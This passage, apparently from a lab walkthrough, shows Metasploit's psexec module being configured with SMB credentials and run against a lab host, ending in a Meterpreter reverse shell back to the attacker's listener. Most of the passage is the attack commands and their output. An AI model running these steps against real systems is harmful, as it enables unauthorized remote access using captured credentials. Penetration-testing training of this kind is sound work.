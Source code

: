 ```bash
                                                    cation
   SMBPass                                no        The password for the specified usernam
                                                    e
   SMBSHARE                               no        The share to connect to, can be an adm
                                                    in share (ADMIN$,C$,...) or a normal r
                                                    ead/write folder share
   SMBUser                                no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ---- --------------- -------- -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process
                                        , none)
   LHOST     x.x.x.x        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   -- ----
   0   Automatic
```

Now let's go ahead and set the LHOST, RHOSTS, SMBUser, SMBPass:

```bash
# LHOST is your host IP
msf6 exploit(windows/smb/psexec) > set LHOST 1.2.3.4
LHOST => 1.2.3.4
# RHOSTS is the target host(s)
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.131.12
RHOSTS => 10.10.131.12
msf6 exploit(windows/smb/psexec) > set SMBUSer given_user
SMBUSer => given_user
msf6 exploit(windows/smb/psexec) > set SMBPass given_password
SMBPass => given_password
```

Now let's go ahead and run it with the `exploit` keyword:

```bash
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 1.2.3.4:4444 
[*] 10.10.131.12:445 - Connecting to the server...
[*] 10.10.131.12:445 - Authenticating to 10.10.131.12:445 as user 'ballen'...
[*] 10.10.131.12:445 - Selecting PowerShell target
[*] 10.10.131.12:445 - Executing the payload...
[+] 10.10.131.12:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.131.12
[*] Meterpreter session 1 opened (1.2.3.4:4444 -> 10.10.131.12:65160) at 2021-10-28 07:12:27 -0700

meterpreter >
```
